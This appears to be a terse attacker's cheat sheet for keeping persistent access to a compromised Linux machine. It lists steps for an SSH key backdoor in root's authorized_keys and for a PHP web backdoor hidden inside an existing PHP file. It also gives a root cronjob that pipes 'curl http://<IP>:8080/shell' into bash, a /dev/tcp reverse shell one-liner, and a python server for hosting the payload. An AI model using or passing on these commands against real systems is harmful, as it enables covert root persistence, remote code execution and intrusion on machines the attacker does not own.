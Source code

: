 				SSH BackDoor

-- ssh-keygen                                   Generates ssh key
    -- Leave public key                      	 Place '/root/.ssh'
    -- SSH Name                                    Name 'authorized_keys'
        -- chmod 600 id_rsa               	  Gives permissions

-- ssh -i id_rsa root@ip                    Use BackDoor

				PHP BackDoor

-- Location                                         /var/www/html
    -- BackDoor script                          

-- Where to execute script                https://ip/PHP-BackDoor.php

                		Hide script

-- Add in existing PHP File
-- Change the "cmd" parameter, cmd is very obvious

				Cronjob BackDoor
-- crontab -l
-- Add to Cronjob                               * *     * * *   root    curl http://<IP>:8080/shell | bash
    -- Add Script inside Cronjob            #!/bin/bash
								bash -i >& /dev/tcp/ip/port 8080>&1
-- Get Bash shell

-- Host HTTP server                             python3 -m http.server 8080

				Links

-- https://airman604.medium.com/9-ways-to-backdoor-a-linux-box-f5f83bae5a3c

